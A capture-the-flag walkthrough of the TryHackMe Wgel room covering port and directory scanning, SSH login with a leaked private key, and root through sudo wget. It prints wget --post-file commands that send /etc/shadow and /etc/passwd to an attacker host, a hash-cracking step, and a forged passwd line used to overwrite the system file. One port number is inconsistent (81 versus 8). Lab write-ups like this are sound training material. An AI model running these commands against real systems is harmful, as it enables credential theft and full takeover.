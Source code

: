 # Wgel CTF

**Room Link:** [https://tryhackme.com/room/wgelctf](https://tryhackme.com/room/wgelctf)





## Scanning

### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

### TCP/80 - HTTP

On the main page of the site it was just a apache default page but in the source we can see someone named jessie making a comment.

<figure><img src="../../.gitbook/assets/image (108).png" alt=""><figcaption></figcaption></figure>

Ran gobuster and found a site under sitemap, nothing really interesting about it when browsing.

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (5) (8).png" alt=""><figcaption></figcaption></figure>

gobuster wasn't really able to find anything interesting.

**Kali**

```
gobuster dir -u http://$VICTIM/sitemap/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt 
```

<figure><img src="../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Ran dirb with defaults and it found a .ssh folder which has a id\_rsa so I downloaded and used it.

**Kali**

```
dirb http://$VICTIM/sitemap/
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (61).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa
ssh -v -i id_rsa  jessie@$VICTIM
```

<figure><img src="../../.gitbook/assets/image (144).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

I tried cracking jessies hash as I would then be able to run any command with sudo but I couldn't crack it, documenting it anyways.

**Victim**

```
sudo -u root /usr/bin/wget --post-file=/etc/shadow $KALI:4444
sudo -u root /usr/bin/wget --post-file=/etc/passwd $KALI:4444
```

**Victim**

```
nc -lvnp 4444
```

**Victim**

```
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



Instead I  changed the passwd file, I first downloaded to kali and changed the line for jessie so their password is now '123'. Then I uploaded it back and just became root.

**Victim**&#x20;

```
sudo -u root /usr/bin/wget --post-file=/etc/passwd 10.10.65.21:4444
```

**Kali**&#x20;

```
nc -lvnp 4444
```

**Line to change**

```
jessie:$1$new$p7ptkEKU1HnaHpRtzNizS1:1000:1000:jessie,,,:/home/jessie:/bin/bash

```

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
python2 -m SimpleHTTPServer 81
```

**Victim**

```
sudo wget http://$KALI:8/passwd -O /etc/passwd
sudo -i
```

<figure><img src="../../.gitbook/assets/image (102).png" alt=""><figcaption></figcaption></figure>

